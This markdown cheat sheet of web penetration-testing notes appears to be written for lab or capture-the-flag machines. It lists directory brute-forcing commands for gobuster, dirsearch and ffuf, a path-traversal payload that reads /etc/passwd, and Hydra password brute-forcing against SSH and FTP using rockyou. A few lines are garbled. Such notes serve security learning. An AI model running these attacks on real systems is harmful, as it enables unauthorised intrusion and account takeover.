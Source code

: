 # Web

## View Source
- Use your browser to view the human-readable source code of a website.

## Blocked/Hidden content
- Inspect page elements and make changes to view usually blocked content.

## Network requests
- See all the network requests a page makes.

## Robots
- Open robots.txt

## Common start pages
- /usr/share/dirb/wordlists/indexes.txt
- index
- default
- home

## Common directories
- admin
- login
- signup
- uploads
- upload
- 

## LFI
Try to open  ../../../../../etc/passwd
http://target/item?id=../../../../../etc/passwd

## Common extensions
- /usr/share/dirb/wordlists/extensions_common.txt
- /usr/share/wordlists/wfuzz/general/mutations_common.txt
- html
- phtml
- txt
- asp
- aspx
- js


## Web path discovery

### Common word lists
- cewl -w wordlist.txt -d 2 -m 5 $target

- /usr/share/wordlists/
- /usr/share/dirb/wordlists/common.txt
- /usr/share/dirb/wordlists/bigxt
- /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
- /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
- /usr/share/wordlists/wfuzz/general/megabeast.txt


/usr/share/wordlists/rockyou.txt

### Gobuster
```
gobuster dir -u http://$target -w /usr/share/dirb/wordlists/common.txt -t 100 -o $target_name.dir.txt
gobuster dir -u $target -w /usr/share/dirb/wordlists/common.txt -x .php,.txt,.html -t 100 -o $target_name.file.txt
gobuster dir -u http://10.10.10.157/centreon/api -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -t 40 -x .php,.txt,.html

```


### dirb
```
dirb $target
```

###  dirsearch

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip3 install -r requirements.txt
python3 dirsearch.py -u <URL> -e <EXTENSIONS>

Usage: dirsearch.py [-u|--url] target [-e|--extensions] extensions [options]

python3 dirsearch.py -u $target -e php,html,txt port80

python3 dirsearch.py -e php,html,js -u https://target

python3 dirsearch.py -e php,html,txt,js -u https://target -w /path/to/wordlist



```

## dirsearch recursive
python3 dirsearch.py -e php,html,js -u https://target -r


## ffuf
ffuf -ic -w /usr/share/wordlists/dirb/common.txt -e '.html' -u "http://10.10.242.137:80/FUZZ" | tee "recon/ffuf_10.10.242.137_80.txt"
ffuf -c -w letters -u http://10.10.21.10 -H "User-Agent: FUZZ"




enum4linux $ip


## Hydra


hydra -l <username> -P /usr/share/wordlists

hydra -l <username> -P locks.txt 10.10.130.81 ssh

hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>

hydra -f -I -vV -t 64 -l lin -P ./locks.txt $TARGET ssh

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.133.186



## rockyou
```
sudo gunzip /usr/share/wordlists/rockyou.txt.gzwc -l /usr/share/wordlists/rockyou.txt
```




Cracking everything with John the Ripper
https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c



